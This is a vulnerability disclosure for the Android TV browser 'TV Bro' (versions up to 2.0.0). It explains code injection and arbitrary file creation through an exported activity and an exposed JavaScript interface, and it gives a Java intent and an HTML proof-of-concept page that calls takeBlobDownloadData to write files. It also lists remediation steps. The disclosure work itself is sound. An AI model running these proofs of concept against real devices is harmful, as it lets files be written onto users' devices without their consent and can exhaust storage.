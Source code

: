 
---

## Vulnerability Report: `com.phlox.tvwebbrowser` 'TV Bro' Version <= 2.0.0

### Vulnerability: Arbitrary File Creation & Download via JavaScript Code Injection in WebView

**Severity**: 🔴 High

### Details:

The `com.phlox.tvwebbrowser` application mishandles external intents through WebView, allowing for both Arbitrary Code Execution (ACE) and, more critically, arbitrary file creation and downloads using specially crafted URIs.

The arbitrary file creation and download risk arises from the ability to generate Base64 encoded strings representing any file content. An attacker can craft these strings and instruct the WebView to decode and save them as files on the user's device without their consent.

**Proof of Concept**:

![Proof of Concept](https://github.com/actuator/com.phlox.tvwebbrowser/blob/main/TVBro.gif)

```java
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setComponent(new ComponentName("com.phlox.tvwebbrowser", "com.phlox.tvwebbrowser.activity.main.MainActivity"));
intent.setData(Uri.parse("http://ampulicidae.com")); // any URL
startActivity(intent);
```

**CWE Reference**:
- [CWE-94](https://cwe.mitre.org/data/definitions/94.html): Improper Control of Generation of Code ('Code Injection')
- [CWE-434](https://cwe.mitre.org/data/definitions/434.html): Unrestricted Upload of File with Dangerous Type 

### Remediation Steps:
1. Restrict External Intent Handling: In `AndroidManifest.xml`, set the `exported` attribute for the affected activity to `false`.
2. URI Sanitization: Implement strict validation and sanitation for URIs.
3. Validate Base64 Data: Before allowing any Base64 decoding in WebView, validate the content to ensure it does not contain malicious data.

### Addendum:

The `com.phlox.tvwebbrowser` application exposes a JavaScript interface, TVBro, to its WebView component. This poses several security risks:

- **Resource Exhaustion**: Creating extremely large files using `takeBlobDownloadData` method.
- **Arbitrary File Creation/Downloads**: The most critical vulnerability. Files with any content can be created and downloaded without user consent, just by encoding malicious data in Base64.

**Proof of Concept**:

```html
<!-- Simple HTML code to demonstrate vulnerability -->
<!DOCTYPE html>
<html lang="en">
<head>
    <title>TV Bro Exploit Demo</title>
</head>
<body>
    <button onclick="triggerExploit()">Trigger Exploit</button>
    <div id="status"></div>
    <script>
        function generateRandomBase64String(length) {
            let characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/';
            let result = '';
            for (let i = 0; i < length; i++) {
                result += characters.charAt(Math.floor(Math.random() * characters.length));
            }
            return result;
        }
        function triggerExploit() {
            const base64Data = generateRandomBase64String(500000);
            const fileName = 'exploit.txt';
            const url = 'http://ampulicidae.com'; 
            const mimeType = 'text/plain';
            if (window.TVBro && typeof window.TVBro.takeBlobDownloadData === 'function') {
                document.getElementById('status').innerText = "Invoking...";
                window.TVBro.takeBlobDownloadData(base64Data, fileName, url, mimeType);
            } else {
                document.getElementById('status').innerText = "Interface not found.";
            }
        }
    </script>
</body>
</html>
```

---

